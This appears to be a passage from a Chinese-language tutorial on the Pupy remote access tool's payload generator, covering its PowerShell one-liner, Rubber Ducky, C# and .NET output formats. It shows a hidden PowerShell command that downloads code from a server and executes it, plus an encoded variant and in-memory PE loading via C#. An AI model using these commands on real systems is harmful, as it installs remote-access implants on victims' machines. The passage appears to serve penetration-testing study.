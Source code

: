 ### 6.ps1_oneliner

通过`IEX(New-Object Net.WebClient).DownloadString`从服务器下载powershell代码并执行

命令示例：

```
gen -f ps1_oneliner
```

在命令行输出下载执行的代码，示例：

```
powershell.exe -w hidden -noni -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.1.1:9000/DfsP5d2GPG/xDrhpNdNTU');"
```

在命令行输出执行base64编码的代码，示例：

```
powershell.exe -w hidden -noni -nop -enc xxxxxxxxxxxxxxxxxxxx
```

### 7.rubber_ducky

生成一个Rubber Ducky脚本和inject.bin文件

命令示例：

```
gen -f rubber_ducky
```

### 8.csharp

生成C#文件(.cs格式)

命令示例：

```
gen -f csharp
```

这个命令将从`pupy/pupy/payload_templates/`读取dll格式的模板文件，添加配置信息，使用Casey Smith的PELoader从内存加载PE文件

**注：**

上述命令对应的模板文件名称为pupyx86.dll

C#文件的编译和使用方法可参考之前的文章[《通过.NET实现内存加载PE文件》](https://3gstudent.github.io/3gstudent.github.io/%E9%80%9A%E8%BF%87.NET%E5%AE%9E%E7%8E%B0%E5%86%85%E5%AD%98%E5%8A%A0%E8%BD%BDPE%E6%96%87%E4%BB%B6/)

### 9..NET

生成C#文件(.cs格式)并通过mono编译，最终生成exe格式的文件

命令示例：

```
gen -f .NET
```
